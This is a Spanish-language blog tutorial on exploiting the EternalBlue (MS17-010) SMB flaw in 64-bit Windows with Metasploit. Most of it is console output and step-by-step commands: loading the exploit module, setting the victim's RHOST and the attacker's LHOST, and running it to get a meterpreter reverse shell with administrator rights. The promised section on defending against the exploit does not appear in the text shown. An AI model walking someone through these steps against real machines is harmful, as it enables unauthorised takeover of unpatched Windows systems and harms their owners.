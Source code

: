 ```yaml
---
title: Eternalblue
published: true
---
```


* Confidencialidad: Totalmente comprometida.
* Integridad: Totalmente comprometida.
* Disponibilidad: Totalmente comprometida.
* Ataque: A traves de la red (Puerto 445).

Buenas a todos, hoy vengo a compartir el uso de un exploit que nos permitira comprometer máquinas Windows de 64 bits, ademas de ello, aprenderemos a como evitar ser comprometidas por este exploit.

## ¿En que consiste eternalblue?

Eternalblue es un exploit que nos permite vulnerar máquinas Windows Vista SP2, Windows Server 2008 SP2 y R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold y R2, Windows RT 8.1, Windows 10 Gold 1511 y 1607, y Windows Server 2016 de 64 bits aprovechando una vulnerabilidad en el SMB (Server Message Block). Lo interesante de este exploit, es que no nos hará falta hacer una escalación de privilegios previa, debido a que desde el primer momento ya seremos administradores de la máquina, comprometiéndola por completo. Y todo esto a través de la red (Puerto 445).

## ¿Como atacar usando este exploit?
Para usar este exploit, usaremos [Metasploit Framework](https://www.metasploit.com/).

* Primero, seleccionaremos el exploit:

```
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.13-dev-                         ]
+ -- --=[ 2176 exploits - 1153 auxiliary - 399 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
* Una vez seleccionado el exploit podremos hacer un "show options" para ver los parámetros que debemos configurar:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.158    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

* Ahora que sabemos que parámetros nos permite configurar el exploit, cambiaremos los necesarios. Primero, tendremos que saber la IP de la máquina víctima. La configuraremos con "set RHOST [IP de la victima]".

* Después, comprobaremos si nuestra IP esta correctamente seleccionada, en caso contrario, usaremos "set LHOST [Nuestra IP]".

Eso sería todo, con esos parámetros básicos, ya seriamos capaces de ejecutar el exploit y comprometer la máquina. Para ejecutar el exploit usaremos el comando "run". 

Una vez que la máquina haya sido comprometida, se nos abrirá una shell reversa usando meterpreter (Esta definido por defecto como payload).
